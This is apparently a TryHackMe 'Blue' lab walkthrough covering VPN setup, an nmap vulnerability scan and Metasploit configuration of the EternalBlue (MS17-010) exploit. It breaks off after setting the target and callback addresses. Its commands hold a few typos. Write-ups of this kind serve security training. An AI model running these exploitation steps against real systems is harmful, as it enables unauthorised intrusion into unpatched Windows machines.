 # 💥 TryHackMe: Blue – EternalBlue Exploitation Walkthrough

Room Link: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
Difficulty: Beginner  
Focus: MS17-010 Vulnerability (EternalBlue)

---

## 🔌 0. VPN Setup on Kali Linux (TryHackMe)

Before anything, connect to the TryHackMe network using OpenVPN.

### 📥 Download your VPN configuration file

1. Log in to [TryHackMe](https://tryhackme.com/)
2. Go to the **Access** page
3. Click **Download My Configuration File** (usually ends in `.ovpn`)

## 📂 Move the file to your system

If downloaded, Go to `Downloads` folder in your distro:
```bash
cd Downloads
```
## 🔐 Now Connect using OpenVPN 

```bash
sudo openvpn <select the downloaded file in folder>
```
![vpn configuration](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/vpn%20configuration.png?raw=true)
Next step,
## 📡 1. Network Scanning & Enumeration
### 🔍 Port Scanning with Nmap
```bash
nmap -sC -sV --sript vuln <TARGET_IP>
```
![nmap the TARGET ip](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/nmap.png?raw=true)

Sample output shows ports: 135, 139, 445 — indicating SMB is active.Sample output shows ports: 135, 139, 445 — indicating SMB is active.

## ⚔️ Step 2: Exploitation with Metasploit## 

We will now exploit the target using the MS17-010 (EternalBlue) vulnerability via Metasploit.

### 🧩 Launch Metasploit
```bash
msfconsole
```

![launching metasploit](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/msfconsole.png?raw=true)

Once inside Metasploit, search for the exploit module:

```bash
search eternal blue
```

![searching eternal blue in msf](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/Search.png?raw=true)

Select the first of the options shows;

```bash
use0
<next>
options
```

![msf console options](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/options.png?raw=true)

We can see the LHOSTS and RHOSTS are need to acquire the required IP Address of each;
So, set RHOSTS the <TARGET_IP> and LHOST must be the ip of ur vpn;

```bash
set RHOSTS <TARGET_IP>
set LHOST <YOUR_VPN_IP>
```

![assigning RHOSTS and LHOST](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/rhosts.png?raw=true  )


